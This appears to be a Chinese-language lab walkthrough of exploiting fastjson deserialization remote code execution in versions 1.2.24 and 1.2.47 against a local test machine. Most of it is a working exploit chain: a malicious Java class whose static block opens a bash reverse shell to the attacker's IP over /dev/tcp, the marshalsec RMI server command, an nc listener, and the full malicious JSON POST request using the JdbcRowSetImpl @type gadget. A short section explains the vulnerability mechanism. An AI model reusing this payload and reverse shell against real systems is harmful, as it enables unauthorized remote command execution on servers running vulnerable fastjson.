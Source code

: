 # 背景

- fastjson是阿里巴巴公司开源的一款`json解析器`,其性能优越,被广泛应用于各大厂商的java项目中,`fastjson1.2.24`版本后增加了反序列化白名单,而在`1.2.48`以前的版本中,攻击者可以利用特殊构造的json字符串绕过白名单检测,成功执行任意命令

# fastjson反序列化(1.2.24-rce)

> 1.2.24-rce

### 环境准备

<img src="./assets/image-20241023142433451.png" alt="image-20241023142433451" style="zoom:50%;" />

- 攻击机:`192.168.2.13`
- 靶机:`192.168.2.254`

### 开始攻击

- 编辑一个恶意java类

```java
//shell.java
import java.lang.Runtime;
import java.lang.Process;
public class shell {
    static {
        try {
            //TODO:这里反弹shell的代码
            Runtime rt = Runtime.getRuntime();
            //TODO:这里需要填写自己攻击机的ip
            String[] commands = {"/bin/bash", "-c", "bash -i >& /dev/tcp/192.168.2.13/8888 0>&1"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
        }
    }
}

```

- 使用`javac`进行编译

```cmd
javac shell.java
```

<img src="./assets/image-20241023144805954.png" alt="image-20241023144805954" style="zoom:50%;" />

- 下载工具

```bash
git clone https://github.com/mbechler/marshalsec.git
```

<img src="./assets/image-20241023145939358.png" alt="image-20241023145939358" style="zoom:50%;" />

- 切换到克隆的文件里,使用`maven`攻击打包项目

<img src="./assets/image-20241023150134671.png" alt="image-20241023150134671" style="zoom:50%;" />

- 打包好了会多一个`target`

<img src="./assets/image-20241023150308744.png" alt="image-20241023150308744" style="zoom:50%;" />

- 把恶意类移动到`target`里

```bash
mv /home/kali/桌面/shell.class /home/kali/桌面/marshalsec/target
```

<img src="./assets/image-20241023150520512.png" alt="image-20241023150520512" style="zoom:50%;" />

- 在当前目录开启一个http服务

```bash
python -m http.server 90000
```

![image-20241023150715808](./assets/image-20241023150715808.png)

- 开启一个`rmi`服务器

```bash
# ip:port --> 刚才起的9000端口, 9999是rmi服务器端口
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.2.13:9000/#shell" 9999
```

![image-20241023151153585](./assets/image-20241023151153585.png)

- 监听端口(这个端口是恶意类里写的8888端口)

```bash
nc -lvvp 8888
```

![image-20241023151545397](./assets/image-20241023151545397.png)

- 打开`burp`访问网页抓包,构造恶意请求

```http
POST / HTTP/1.1
Host: 192.168.2.254:8090
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/json
Content-Length: 0

{
 		"b":{
			"@type":"com.sun.rowset.JdbcRowSetImpl",
			"dataSourceName":"rmi://192.168.2.13:9999/shell",
			"autoCommit":true
	}
}
```

- 这里需要注意,修改为`post`请求方式
- `conctent-type`修改为这个`content-type:application/json`

![image-20241023151824172](./assets/image-20241023151824172.png)

- 反弹成功

![image-20241023151845402](./assets/image-20241023151845402.png)

### 漏洞原理

- fastjson在解析`json`文件的过程中,支持使用`atuo type`来实例化一个类,并调用`set/get`方法来访问属性,fastjson默认使用`@type`指定反序列化任意类
- 攻击手法:攻击者可以构造恶意类,通过`反序列化`过程中调用`getter/setter`方法,以及目标成员变量的注入来达到传参的目的,最终形成恶意调用链
- 利用`流程`

```bash
1.首先开启http服务器,并将恶意类放在目录下
2.开启恶意的RMI服务器
3.攻击者控制url参数为上一步开启俄rmi服务器地址
4.恶意rmi服务器返回referencewrapper类
5.目标(jnid client)在执行lookup操作时候,在decodeObject中将referenceWrapper变成Reference类,然后远程加载并实例化我们的factory类(即远程加载我们http服务器上的恶意类),在实例化时触发静态代码片段中的恶意代码
```

****

# fastjson反序列化(1.2.47)

> 1.2.47-rce

### 环境准备

<img src="./assets/image-20241023154208224.png" alt="image-20241023154208224" style="zoom: 33%;" />

### 开始攻击

- 所有步骤跟`1.2.24`一致

<img src="./assets/image-20241023160524485.png" alt="image-20241023160524485" style="zoom: 50%;" />

- 没什么说的

****